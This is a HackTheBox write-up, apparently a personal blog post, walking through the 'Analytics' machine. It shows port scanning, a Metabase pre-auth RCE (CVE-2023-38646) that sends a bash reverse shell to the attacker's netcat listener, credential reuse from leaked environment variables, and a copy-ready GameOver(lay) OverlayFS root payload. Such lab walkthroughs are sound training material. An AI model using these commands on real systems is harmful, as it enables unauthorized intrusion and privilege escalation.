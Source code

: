 ```yaml
---
layout: post
title: Analytics writeup (HackTheBox)
author: wizarddos
category: writeups
excerpt_separator: <!--more-->
---
```


Hi there - that's my first Hack The box writeup.
Today, I'll cover [Analytics](https://app.hackthebox.com/machines/569) box.

So, off we go
<!--more-->
## Recon
First - I started rustscan
```
$ rustscan -a $IP
```
And it gave me 2 ports `22` and `80` - let's enumerate further
```
$ nmap -sC -sV -oN scan.txt $IP -p22,80    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-25 15:14 CET
Nmap scan report for 10.10.11.233
Host is up (0.033s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We have also found a new domain - `http://analytical.htb/`
Add it to `/etc/hosts` with IP address 
```
$ sudo nano /etc/hosts
```
And then in new line
```
[Machine IP]      analytical.htb
```
Close editor with `Ctrl-X` and get to the site
## Website enumeration

In source code, we can see another subdomain - `data.analytical.htb`

Append it to `/etc/hosts` as well
```
$ echo "[Machine IP]    data.analytical.htb"
```

In there, we have **metabase** instance deployed
![Image of the login page](https://images.prismic.io/superpupertest/119ff6a6-3a33-47ba-a5ea-1fbe3c0ff516_metabase-login-page-in-browser.webp?auto=format&w=680&h=398.253&dpr=3)
(as for some reason, I can't access to this machine - Image comes from [Maddevs' writeup](https://maddevs.io/writeups/hackthebox-analytics/))
{: .subtext}

We don't need to brute-force the password - as there is one exploit for this particular version of metabase

**CVE-2023-38646**

You can get the exploit from [this Github repo](https://github.com/m3m0o/metabase-pre-auth-rce-poc)

As _Usage_ section says
> The script needs the target URL, the setup token and a command that will be executed. The setup token can be obtained through the /api/session/properties endpoint. Copy the value of the setup-token key.

So, we go to `http://data.analytical.htb/api/session/properties` and copy `setup-token` value

First, set up netcat listener so we can get reverse shell connection
```
$ nc -lvnp 2000
```
Then, we can utilize this exploit
```
$ python3 main.py -u http://data.analytical.htb -t [Your copied token] -c "bash -i 1>& /dev/tcp/[Your IP]/2000 0>&1"
```

When it's executed - in terminal with netcat, we should have operating shell

## Privilege escalation

We can't really run `sudo`, nor any `cronjobs` are present

Maybe enviromental variables?

```
$ env
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=d0ca4e533c16
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/metabase.db
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/usr/bin/env
OLDPWD=/
```

We have 2 interesting values
```
META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

Actually, this credentials can be used to log into SSH and exit the container we are in
```
$ ssh metalytics@analytical.htb
```

So, inside SSH we can find `user.txt` file
```
cat user.txt
[REDACTED]
```

### Getting Root

This system is vulnerable to **GameOver(lay)** exploit

It consists of **CVE-2023-2640** and **CVE-2023-32629**

If you want to know more - check [CrowdStrike publication](https://www.crowdstrike.com/blog/crowdstrike-discovers-new-container-exploit/) about it

Right now, we can exploit it with simple payload
```
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;import pty;os.setuid(0);pty.spawn("/bin/bash")'
```

(I didn't add thath `$` by default - so you can copy it)

Then, we should have root - get the flag

```
# cat /root/root.txt
[REDACTED]
```

And, that's it
Machine Pwned

## Conclusion

I hope this walkthrough helped you - I actually liked hacking this machine

I've learned new exploits and overall pracised my enumeration skills

So, that's it - see you next time